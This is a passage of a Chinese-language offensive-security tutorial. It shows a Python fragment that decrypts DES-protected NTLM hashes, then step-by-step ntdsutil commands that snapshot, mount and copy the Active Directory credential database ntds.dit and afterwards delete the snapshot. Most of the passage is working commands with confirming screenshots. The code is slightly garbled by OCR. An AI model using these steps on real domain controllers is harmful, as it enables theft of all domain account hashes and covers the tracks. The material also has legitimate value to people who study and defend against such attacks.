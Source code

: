     
    (des_k1，des_k2)= sid_to_key(rid)  
      
    d1 = DES.new(des_k1，DES.MODE_ECB)  
      
    d2 = DES.new(des_k2，DES.MODE_ECB)  
      
    hash = d1.decrypt(denc_hash) [：8])+ d2.decrypt(denc_hash [8：])

注意，必须具有用户的SID才能确定RID并计算用于DES的密钥。

# 抓取ntds.dit

## 通过ntdsutil.exe提取ntds.dit

创建快照

    
    
    ntdsutil snapshot "activate instance ntds" create quit quit

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220419115507.png)

挂载快照

    
    
    ntdsutil snapshot "mount {b425cef1-c73c-4be5-ad86-522c27a18180}" quit quit

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220419115508.png)

复制ntds.dit

    
    
    copy C:\\$SNAP_202104180958_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220419115509.png)

可以看到在c盘下面已经把ntds.dit复制了出来

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220419115510.png)

点进去看一下是完全一样的

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220419115512.png)

卸载快照

    
    
    ntdsutil snapshot "unmount {b425cef1-c73c-4be5-ad86-522c27a18180}" quit quit

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220419115513.png)

删除快照

    
    
    ntdsutil snapshot "delete {b425cef1-c73c-4be5-ad86-522c27a18180}" quit quit

